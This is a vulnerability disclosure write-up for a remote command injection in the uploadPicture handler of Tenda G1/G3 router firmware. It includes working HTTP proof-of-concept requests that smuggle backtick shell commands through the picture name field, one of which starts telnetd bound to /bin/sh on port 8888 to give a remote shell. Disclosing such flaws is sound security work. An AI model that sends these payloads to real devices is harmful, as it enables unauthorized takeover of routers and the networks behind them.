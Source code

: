 # Tenda Vulnerability

Vendor:Tenda

Product:G1、G3

Version:V15.11.0.17(9502)_CN(Download Link:https://www.tenda.com.cn/download/detail-3108.html)

Type:Remote Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn



## Vulnerability description

We found an Command Injection vulnerability in Tenda router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `httpd` binary:

In `uploadPicture` function, An attacker can upload pictures to the router, `pic_name` is directly passed by the attacker, so we can control the `pic_name` to attack the OS.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

First, you need to understand the processing flow of the `webCgiGetUploadPictureFile` function.

In this code, the input is strictly processed:

- The characters' - 'and' \ n 'exist in the first field
- There are two consecutive characters "\n"
- Extract the **picture name** from the front of the string "--"
- The second half of the string needs to contain the string "filename" and two consecutive characters "\n"

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>

Subsequently, there will be a judgment logic, `pic_name` must contain a suffix string representing the image file to enter the code block triggered by the vulnerability.

<div  align="center"><img src="./images/3.png" style="zoom:80%;" /></div>

And we can see that if the command injection is successful, the injected string and result can be returned, which is shown in the subsequent vulnerability verification section.

<div  align="center"><img src="./images/4.png" style="zoom:80%;" /></div>

**Supplement**

We observed that there is no corresponding HTML page, but this processing flow for specific protocol fields is saved in the program. In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

We set `pic_name` as:

```http
POST /cgi-bin/uploadPicture HTTP/1.1
Host: 192.168.1.252
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------24215928642961670398380275938
Content-Length: 287
Origin: http://192.168.1.252
Connection: close
Referer: http://192.168.1.252/sysManage/backupRecover.html?0.7419783542109053
Cookie: _:USERNAME:_=; G3v3_user=
Upgrade-Insecure-Requests: 1

-----------------------------24215928642961670398380275938

`/usr/sbin/telnetd`a.jpg  --
Content-Disposition: form-data; name="fileSearch"; filename="1"
Content-Type: application/octet-stream

--2021-12-19 16:33:13--

-----------------------------24215928642961670398380275938--
```

<div  align="center"><img src="./images/5.png" style="zoom:80%;" /></div>

> It is best to be able to send the payload in the above format

We set `pic_name` as:

```http
POST /cgi-bin/uploadPicture HTTP/1.1
Host: 192.168.1.252
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------24215928642961670398380275938
Content-Length: 307
Origin: http://192.168.1.252
Connection: close
Referer: http://192.168.1.252/sysManage/backupRecover.html?0.7419783542109053
Cookie: _:USERNAME:_=; G3v3_user=
Upgrade-Insecure-Requests: 1

-----------------------------24215928642961670398380275938

`telnetd -l /bin/sh -p 8888 -b 0.0.0.0`a.jpg  --
Content-Disposition: form-data; name="fileSearch"; filename="1"
Content-Type: application/octet-stream

--2021-12-19 16:33:13--

-----------------------------24215928642961670398380275938--
```

<div  align="center"><img src="./images/6.png" style="zoom:80%;" /></div>



## Result

The target router has enabled the telnet service.

<div  align="center"><img src="./images/7.png" style="zoom:80%;" /></div>

Get a shell!

<div  align="center"><img src="./images/8.png" style="zoom:100%;" /></div>
